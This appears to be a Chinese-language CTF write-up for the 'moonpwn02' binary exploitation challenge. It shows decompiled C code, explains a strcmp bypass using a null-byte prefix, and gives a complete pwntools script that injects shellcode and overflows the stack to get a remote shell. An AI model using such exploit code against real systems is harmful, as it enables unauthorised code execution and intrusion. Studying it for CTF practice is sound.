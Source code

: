 加上,有`strcmp(&s, "yes\n") `判断需要我们bypass.

```c
int __cdecl main(int a1)
{
  char s; // [esp+0h] [ebp-18h]
  int *v3; // [esp+10h] [ebp-8h]

  v3 = &a1;
  sub_80485A6();
  memset(&s, 0, 0x10u);
  memset(::s, 0, 0x100u);
  puts("Input your shellcode");
  fgets(::s, 256, stdin);
  puts("Do you know how to use shellcode????");
  read(0, &s, 0x14u);
  if ( strcmp(&s, "yes\n") )
  {
    puts("you may be need learn it");
    exit(0);
  }
  puts("ok,good");
  return 0;
}
```

我们可以通过`yes\n\x00`+code的方法来绕过strcmp函数。同时，由于题目没有开NX与PIE，因此我们可以通过ida静态分析出通过fgets函数写入的shellcode存放到`0x804a040`。

因此我们可以通过栈溢出控制`edp`，再通过栈特性间接控制`eip`，在让让`eip`指向我们shellcode的地址，从而getshell。

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   exp.py
@Time    :   2021/09/20 16:41:27
@Author  :   lexsd6
'''

from pwn import * 
from libcfind import *

local_mote=0
elf='./moonpwn02'
e=ELF(elf)
#context.log_level = 'debug'
context.arch='i386'
ip_port=['pwn.challenge.ctf.show',28157]

debug=lambda : gdb.attach(p) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])

p.sendline(p32((0x804a040+4))+asm(shellcraft.sh()))
#debug()
#print(hex(len(pay)))
p.sendline('yes\n\x00'+'\x00'*3+'\x00'*0x8+p32(0x804a040+4))

p.interactive()
```
